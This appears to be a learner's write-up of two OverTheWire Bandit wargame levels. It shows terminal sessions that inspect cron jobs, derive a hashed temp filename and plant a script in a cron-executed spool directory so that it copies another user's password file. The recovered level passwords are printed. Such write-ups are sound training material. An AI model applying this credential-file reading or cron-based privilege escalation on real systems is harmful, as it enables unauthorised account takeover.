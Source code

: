 # Level 22 -> 23
~~~
bandit22@bandit:/etc/cron.d$ ls
atop  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24
bandit22@bandit:/etc/cron.d$ cat cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
bandit22@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
bandit22@bandit:/etc/cron.d$ echo I am user bandit23 | md5sum | cut -d ' ' -f 1
8ca319486bfbbc3663ea0fbe81326349
bandit22@bandit:/etc/cron.d$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
~~~
*Hashing function and delimeter*
Here the output of 'I am user $myname' was hashed using md5 and the first worf of the file was taken (' ' was the delimeter/seperation).  
But we using whoami we used to get bandit22, and we have the password for that. So we just tried out luck to understand the bash file and do the same of 'bandit23' and luckily it worked!
___
# Level 23 -> 24
~~~
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir -p /tmp/gxuvimr
bandit23@bandit:~$ cd /tmp/gxuvimr
bandit23@bandit:/tmp/gxuvimr$ touch pass.sh
bandit23@bandit:/tmp/gxuvimr$ chmod 777 pass.sh
bandit23@bandit:/tmp/gxuvimr$ vim pass.sh


#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/gxuvimr/pass


bandit23@bandit:/tmp/gxuvimr$ cat pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
~~~